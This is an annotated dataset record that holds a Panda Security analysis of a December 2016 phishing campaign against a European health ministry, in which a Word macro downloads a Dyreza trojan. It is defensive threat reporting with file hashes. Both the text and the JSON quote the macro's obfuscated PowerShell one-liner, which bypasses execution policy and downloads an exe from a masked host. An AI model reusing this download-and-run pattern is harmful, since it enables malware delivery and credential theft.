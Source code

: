 ```yaml
---
title: "<title>Malware Capable of Paralyzing an Entire Ministry Neutralized</title>"
id: 428
---
```


<title>Malware Capable of Paralyzing an Entire Ministry Neutralized</title>
<source> http://www.pandasecurity.com/mediacenter/pandalabs/dangerous-malware-neutralized/ </source>
<date> 2017_01_31 </date>
<text>
Cyberthreats are a constant risk and affect public administrations significantly.
So much so that they have become a powerful instrument of aggression against public entities and citizens.
They can lead to a serious deterioration in the quality of service, and also, above all, to data leaks concerning everything from personal information to state secrets.
The combination of new technologies and the increase in the complexity of attacks, as well as the professionalization of cybercriminals, is highly dangerous.
Last December, a large-scale spam campaign spanning more than ten countries was carried out, and specifically targeted a major European ministry.
The attack, via phishing, was highly advanced and combined social engineering tactics with a powerful Trojan.
The attack is sent by email with an attached Word document.
At first, we suspected that it was a targeted attack, since the message came, supposedly, from a healthcare company and the recipient was an employee of the Ministry of Health in a European country.
The present analysis describes the technical features of the harmful code found in the macro of the Word document.
The goal of the macro was to download and run another malicious component.
Below are shown a few static properties of the analyzed files.
The hash of the Word document is the following:
MD5:  B480B7EFE5E822BD3C3C90D818502068
SHA1:  861ae1beb98704f121e28e57b429972be0410930
According to the document’s metadata, the creation date was 2016-12-19.
The malicous code’s signature, downloaded by Word, is the following:
MD5:  3ea61e934c4fb7421087f10cacb14832
SHA1:  bffb40c2520e923c7174bbc52767b3b87f7364a9
The Word document gets to the victim’s computer by way of a spam email coming from a healthcare company.
The text tricks the recipient into beleiving that the content is protected and needs to run the macro in order to gain access to it.
According to the data recovered by Panda Security’s Collective Intelligence, this spam campaign took place on December 19, 2016 and affected several countries.
Interactions with the infected system
The basic function of the macro consists in downloading and running another malicious code from a URL embedded in the macro itself.
Also, the macro is designed to run immediately upon being opened.
Part of the obfuscated code contained in the macro
Once the macro is running, the Word doc runs the following command in the system:
cmd.exe /c pOWeRsHELL.EXe   -eXecUTIONpolICy   BYPAss  -noPrOfIlE -winDowsTyle    hidDEN (NeW-oBjECt    sYstEm.NeT.webcLiENt).DOWNloAdFILE(‘http://xxxxxxxxxxxx.com/13obCpHRxA1t3rbMpzh7iy1awHVm1MzNTX.exe’,’C:\Users\???
?\AppData\Roaming.eXe’
The system symbol (cmd.exe) runs the powershell with two embedded commands going through parameters:
Thanks to the data obtained by the Intelligence Collective at Panda Security, we know that the last malicious code to be distributed by this campaign is a variant of the Dyreza family.
Panda’s clients were protected proactively, without need of signatures or updates.
The purpose of the malicious code is to steal credentials from browsers and add the compromised machine to bot network.
It then waits for commands from the Command & Control Server.
These commands come from the cybercriminals that operate it, and is able to download further new malware and carry out all kinds of malicious actions.
Digitization in Public Administration leads to the exponential growth of the creation, storage and management of huge quantities of confidential data — data that does not allow for a single oversight.
</text>



## Annotations

Annotation keys: content, sourcefile, cyberevent, info

<details>
<summary>Raw annotation JSON (preview)</summary>

```json
{
  "content": "Cyberthreats are a constant risk and affect public administrations significantly. So much so that they have become a powerful instrument of aggression against public entities and citizens. They can lead to a serious deterioration in the quality of service, and also, above all, to data leaks concerning everything from personal information to state secrets. The combination of new technologies and the increase in the complexity of attacks, as well as the professionalization of cybercriminals, is highly dangerous. Last December, a large-scale spam campaign spanning more than ten countries was carried out, and specifically targeted a major European ministry. The attack, via phishing, was highly advanced and combined social engineering tactics with a powerful Trojan. The attack is sent by email with an attached Word document. At first, we suspected that it was a targeted attack, since the message came, supposedly, from a healthcare company and the recipient was an employee of the Ministry of Health in a European country. The present analysis describes the technical features of the harmful code found in the macro of the Word document. The goal of the macro was to download and run another malicious component. Below are shown a few static properties of the analyzed files. The hash of the Word document is the following: MD5: \u00a0B480B7EFE5E822BD3C3C90D818502068 SHA1: \u00a0861ae1beb98704f121e28e57b429972be0410930 According to the document\u2019s metadata, the creation date was 2016-12-19. The malicous code\u2019s signature, downloaded by Word, is the following: MD5: \u00a03ea61e934c4fb7421087f10cacb14832 SHA1: \u00a0bffb40c2520e923c7174bbc52767b3b87f7364a9 The Word document gets to the victim\u2019s computer by way of a spam email coming from a healthcare company. The text tricks the recipient into beleiving that the content is protected and needs to run the macro in order to gain access to it. According to the data recovered by Panda Security\u2019s Collective Intelligence, this spam campaign took place on December 19, 2016 and affected several countries. Interactions with the infected system The basic function of the macro consists in downloading and running another malicious code from a URL embedded in the macro itself. Also, the macro is designed to run immediately upon being opened. Part of the obfuscated code contained in the macro Once the macro is running, the Word doc runs the following command in the system: cmd.exe /c pOWeRsHELL.EXe\u00a0\u00a0 -eXecUTIONpolICy\u00a0\u00a0 BYPAss\u00a0 -noPrOfIlE -winDowsTyle\u00a0\u00a0\u00a0 hidDEN (NeW-oBjECt\u00a0\u00a0\u00a0 sYstEm.NeT.webcLiENt).DOWNloAdFILE(\u2018http://xxxxxxxxxxxx.com/13obCpHRxA1t3rbMpzh7iy1awHVm1MzNTX.exe\u2019,\u2019C:\\Users\\??? ?\\AppData\\Roaming.eXe\u2019 The system symbol (cmd.exe) runs the powershell with two embedded commands going through parameters: Thanks to the data obtained by the Intelligence Collective at Panda Security, we know that the last malicious code to be distributed by this campaign is a variant of the Dyreza family. Panda\u2019s clients were protected proactively, without need of signatures or updates. The purpose of the malicious code is to steal credentials from browsers and add the compromised machine to bot network. It then waits for commands from the Command & Control Server. These commands come from the cybercriminals that operate it, and is able to download further new malware and carry out all kinds of malicious actions. Digitization in Public Administration leads to the exponential growth of the creation, storage and management of huge quantities of confidential data \u2014 data that does not allow for a single oversight",
  "sourcefile": "428.txt",
  "cyberevent": {
    "hopper": [
      {
        "index": 0,
        "events": [
          {
            "nugget": {
              "startOffset": 772,
              "index": "T24",
              "endOffset": 782,
              "text": "The attack"
            },
     
```
</details>
